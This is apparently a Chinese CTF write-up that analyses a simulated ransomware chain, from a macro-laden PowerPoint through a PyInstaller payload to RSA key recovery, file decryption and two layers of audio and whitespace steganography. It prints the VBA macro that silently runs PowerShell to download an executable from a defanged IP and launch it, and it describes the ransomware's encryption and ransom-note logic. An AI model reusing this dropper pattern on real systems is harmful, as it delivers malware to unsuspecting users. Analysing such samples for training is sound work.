



# Crazy Thursday v me 50 btc

## 题目简述

附件是一条模拟勒索软件攻击链：启用宏的 PowerPoint 投递 PyInstaller 打包的 Python 载荷，载荷使用 3DES 加密文件、再用 RSA 封装 3DES 密钥。恢复出的 WAV 中还有 DeepSound 与 SNOW 两层隐写。

[原始题目附件（百度网盘，提取码 `ocsm`）](https://pan.baidu.com/s/14gOr0FIWTcxG6HD0OVPDWg?pwd=ocsm)

分析宏和可执行文件时不要直接播放幻灯片或运行样本，应在隔离环境中做静态分析。

## 解题过程

### 1. 宏投递与 PyInstaller 载荷

`spring.pptm` 的 `OnSlideShowPageChange` 宏会在播放到第 2 页时执行隐藏 PowerShell：把 `summer.exe` 下载到桌面并启动。历史下载 IOC 为 `hxxp://47[.]239[.]17[.]55/summer.exe`，这里去活化记录，不能当作当前可用下载链接访问。

```vb
Sub OnSlideShowPageChange()
    If ActivePresentation.SlideShowWindow.View.CurrentShowPosition = 2 Then
        desktopPath = Environ("USERPROFILE") & "\Desktop\"
        filePath = desktopPath & "summer.exe"
        ' 原宏中的下载 IOC 已去活化，禁止直接执行
        url = "hxxp://47[.]239[.]17[.]55/summer.exe"
        psScript = "Invoke-WebRequest -Uri '" & url & _
                   "' -OutFile '" & filePath & _
                   "'; Start-Process '" & filePath & "'"
        CreateObject("WScript.Shell").Run "powershell -Command " & psScript, 0, True
    End If
End Sub
```

Exeinfo PE 将 `summer.exe` 识别为 PyInstaller 包，内嵌 Python 3.8 字节码：



可使用 [pyinstxtractor 上游源码](https://github.com/extremecoders-re/pyinstxtractor) 解包，再反编译入口 `summer.pyc`：

```bash
python pyinstxtractor.py summer.exe
uncompyle6 summer.exe_extracted/summer.pyc > summer.py
```

恢复出的关键行为为：

1. 递归查找文档、图片、压缩包、音视频等常见后缀；
2. 用 24 字节随机密钥执行 3DES-ECB 和 PKCS#7 填充；
3. 原设计会删除明文并写为 `<原文件>.encrypted`；比赛样本出于安全考虑删去了实际破坏部分；
4. 用 512 位 RSA、$e=65537$ 加密 3DES 密钥；
5. 在 `Oops!.txt` 末尾写入 `Base64(bitlen(n) || n || bitlen(c) || c)`。

密钥生成逻辑为：

```python
from Crypto.Random import get_random_bytes

k3y = b"Summer" + get_random_bytes(18)
```

因此反编译 `secret.pyc` 只能知道 6 字节前缀，后 18 字节必须从 RSA 密文恢复。

### 2. 恢复 RSA 封装的 3DES 密钥

Base64 解码 `Oops!.txt` 最后一行，并按位长度字段切分，得到：

```text
n.bit_length() = 511
n = 6622320770252713983049525538529442399806399114601156042479162556501743025546301982131013970430949612759498909508894354368867959407638642272535440767511933
c.bit_length() = 509
c = 1463395291354414033241866227371254790898156535141365755336147164392037884099642848212701050302606758739200003046537720344359702711890711691510289097046372
```

题目使用的 $n$ 已可分解为：

```text
p = 64816076191920076931967680257669007967886202806676552562757735711115285212307
q = 102170960652478489355215071707263191814765888101601364955857801471459364198319
```

计算 $d=e^{-1}\bmod\varphi(n)$ 并解密 $c$，得到 24 字节 3DES 密钥：

```text
53756d6d657261ca564a2e226967201869baecc5949f7cb5
```

其前 6 字节解码为 `Summer`，与反编译结果一致。下面脚本同时恢复密钥并解密 `autumn.wav.encrypted`：

```python
from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad
from Crypto.Util.number import long_to_bytes

p = 64816076191920076931967680257669007967886202806676552562757735711115285212307
q = 102170960652478489355215071707263191814765888101601364955857801471459364198319
n = 6622320770252713983049525538529442399806399114601156042479162556501743025546301982131013970430949612759498909508894354368867959407638642272535440767511933
c = 1463395291354414033241866227371254790898156535141365755336147164392037884099642848212701050302606758739200003046537720344359702711890711691510289097046372
e = 65537

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
key = long_to_bytes(pow(c, d, n))
assert len(key) == 24 and key.startswith(b"Summer")

with open("autumn.wav.encrypted", "rb") as source:
    ciphertext = source.read()

cipher = DES3.new(key, DES3.MODE_ECB)
plaintext = unpad(cipher.decrypt(ciphertext), DES3.block_size)

with open("autumn.wav", "wb") as output:
    output.write(plaintext)
```

### 3. DeepSound 与 SNOW

恢复出的 WAV 尾部存在额外明文：

```text
password:0xRansomeware
```

拼写是题目原文的 `Ransomeware`，不能改成 `Ransomware`。

使用支持该载体格式的 DeepSound 2.2 打开 `autumn.wav`，可看到并提取受密码保护的 `winter.txt`：



`winter.txt` 表面只有 `When snow falls, nature listens.`，但其后大量空格和制表符构成 SNOW 隐写：



用 WAV 尾部取得的密码提取：

```bash
snow -C -p "0xRansomeware" winter.txt
```

输出为：

```text
0xGame{d3ba2505-36b1-4191-8212-062b943c58ec}
```

## 方法总结

完整链路为 `PPTM 宏 → PyInstaller/Python 勒索逻辑 → RSA 解封装 3DES 密钥 → 解密 WAV → DeepSound → SNOW`。外部下载地址只是历史 IOC，应去活化记录；真正决定复现的是宏触发条件、勒索程序的密钥封装格式、完整 RSA 参数、恢复出的 3DES 密钥和两层隐写密码。
